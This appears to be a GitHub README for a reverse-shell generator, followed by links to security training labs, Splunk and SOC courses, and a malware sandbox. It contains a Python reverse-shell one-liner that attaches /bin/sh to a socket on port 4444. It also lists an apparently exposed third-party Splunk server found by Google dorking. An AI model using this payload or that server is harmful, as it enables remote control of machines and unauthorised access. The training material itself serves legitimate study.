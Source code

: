 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```
```
fsck /dev/sdX
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm
* Random splunk server: http://172.218.49.49:8000/en-US/manager/search/adddatamethods/selectsource?input_mode=0

### Splunk SIEM Crash Course | Free Spunk Training for Security Analyst:
* https://youtu.be/LbR5cqqaFVk?si=DzuR70M_1Ld6Jx6g
  
## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm

## Top 10 Soc analyst hands on labs.

link:https://youtu.be/G5sCK6IU3nU?si=r9Br6pag8HZeiUGK

## Sandbox for Malware forensics !

![any_run4_Forensics](https://github.com/user-attachments/assets/9d7d3729-a16f-4214-8803-6b87a1ff3f1d)

ANY. RUN is a service that allows cybersecurity specialists to detect, analyze, and monitor cybersecurity threats. It is the interactive online malware analysis sandbox, where the user controls the flow of the analysis.

```
[*] https://app.any.run/
```

## SOC Master Class: A Beginner’s Guide to Building a Career in Cybersecurity

https://youtu.be/9dlDcyg0d6U?si=fiGHRGHhmtu-29TJ
